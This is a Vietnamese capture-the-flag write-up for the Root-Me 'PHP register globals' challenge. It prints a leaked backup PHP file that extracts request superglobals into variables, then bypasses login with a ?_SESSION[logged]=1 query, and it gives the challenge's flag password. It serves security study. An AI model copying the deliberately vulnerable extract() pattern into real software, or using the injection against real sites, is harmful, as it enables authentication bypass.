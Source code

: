 # Challenge: PHP - register globals
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals

- Thử thách chỉ cho ta 1 trang nhập mật khẩu duy nhất, ta thử kiểm tra tài mã nguồn thì cũng không có gì để khai thác 
<p align="center"><img src="./images/11.1.png"></p>

- Đề có gợi ý cho ta, lập trình viên có để lại file backup, ta thử tìm kiếm trong tài liệu đã cung câp ta thấy file backup có phần mở rộng là .bak hoặc .old
<p align="center"><img src="./images/11.2.png"></p>

- Đề chỉ cho ta 1 trang index.php (trang chủ). do vậy ta thử với các giá trị của filename, ta thấy file backup có filename là `index.php.bak`
```
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}



function display($res){
    $aff= '
	  <html>
	  <head>
	  </head>
	  <body>
	    <h1>Authentication v 0.05</h1>
	    <form action="" method="POST">
	      Password&nbsp;<br/>
	      <input type="password" name="password" /><br/><br/>
	      <br/><br/>
	      <input type="submit" value="connect" /><br/><br/>
	    </form>
	    <h3>'.htmlentities($res).'</h3>
	  </body>
	  </html>';
    return $aff;
}



session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}

echo $aff;

?>
```

- Ta thấy server kiểm tra trạng thái đăng nhập bỡi ` $_SESSION["logged"]==1 `. Bài này là `register globals` do vậy ta sẽ exploit nó bởi GET request với `?_SESSION[logged]=1`?
> http://challenge01.root-me.org/web-serveur/ch17?_SESSION[logged]=1

<p align="center"><img src="./images/11.3.png"></p>

## Kết quả password là `NoTQYipcRKkgrqG`
